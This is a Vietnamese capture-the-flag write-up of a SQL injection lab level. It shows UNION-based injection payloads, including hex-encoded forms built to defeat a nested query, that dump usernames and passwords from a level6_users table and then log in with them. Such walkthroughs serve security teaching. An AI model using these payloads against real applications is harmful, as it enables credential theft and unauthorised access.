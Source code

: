 ## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 7-8/5/2022

- Dựa vào gợi ý <code>Get the first user in table level6_users with status 1</code>. Ta sẽ dùng <code>ORDER BY</code> để tìm số lượng cột.
- Sau khi thử, ta có số cột là 5.
  
  ![CHESSE](img/26.png)

- Tiếp theo, ta sẽ dùng union để tim các cột dễ bị tấn công.<code>union select 1,2,3,4,5 from level6_users#</code>
  
  ![CHESSE](img/27.png)

- Nhưng không có kết quả trả về. Sau khi tìm hiểu, ta biết được thử thách này dùng 2 truy vấn lồng nhau.
- Nên ta sẽ thử dùng <code>union select 'union all select 1,2,3,4,5 from level6_users#,2,3,4,5 from level6_users#</code>. Nhưng kết quả trả về vẫn là <code>User not found</code>
- Tiếp tục, ta sử mã hóa hex <code>' union select 1,2,3,4,5,#</code> và lần lượt thay username vào lần lượt các vị trí 1,2,3,4,5. Và ở lần thử thứ 2, khi username ở cột thử 2, ta có kết quả trả về là 2 và 4.
  
  ![CHESSE](img/28.png)

- Vì đã biết được cột 2 và 4 dễ bị khai thác. Nên ta sẽ tấn công union với <code>'union all select 1,username,3,password,5 from level6_users#</code> sau khi mã hóa hex là <code>27756e696f6e20616c6c2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f757365727323</code>
  
  ![CHESSE](img/29.png)

- Lúc này, ta thử đăng nhập với username và password đã lấy được.

  ![CHESSE](img/30.png)

- Kết quả trả về ta đã đăng nhập đúng nhưng thiếu <code>status=1</code>. Nên ta thử thêm vào câu truy vấn <code>'union all select 1,username,3,password,5 from level6_users where status=1#</code>. Sau khi thực hiện mã hóa hex ta được <code>27756e696f6e20616c6c2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f7573657273207768657265207374617475733d3123</code>

  ![CHESSE](img/31.png)

- Ta thử đăng nhập lại và thành công.
  
  ![CHESSE](img/32.png)